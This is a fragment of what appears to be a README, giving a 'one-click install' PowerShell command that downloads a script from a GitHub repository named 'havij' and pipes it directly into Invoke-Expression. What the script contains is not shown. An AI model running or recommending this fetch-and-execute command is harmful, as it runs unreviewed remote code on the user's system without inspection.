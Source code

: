 ## One-click install (PowerShell)

```powershell
iwr -useb https://raw.githubusercontent.com/mdromanmoonshi/havij/main/hlazy.ps1 | iex
